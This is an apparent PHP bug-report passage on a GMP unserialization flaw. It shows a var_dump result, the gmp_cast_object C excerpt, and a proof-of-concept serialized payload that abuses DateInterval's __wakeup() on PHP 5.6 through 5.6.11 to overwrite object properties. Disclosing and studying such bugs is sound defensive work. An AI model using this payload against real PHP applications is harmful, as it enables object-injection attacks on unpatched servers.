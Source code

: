 Actual result:
```
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
}
```

i) How to exploited this bug in real world?
On php 5.6 <= 5.6.11, DateInterval's __wakeup() use convert_to_long() handles and reassignments its properties (it has been demonstrated many times), so an attacker can convert GMP object to an any integer-type ZVAL via GMP's gmp_cast_object():

```
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS;
```

The following codes will prove this exploite way:
```
<?php

var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

?>
```
Of course, a crafted __wakeup() can also be exploited, ex:

```
<?php

function __wakeup()
{
    $this->ryat = (int) $this->ryat;
}

?>
```
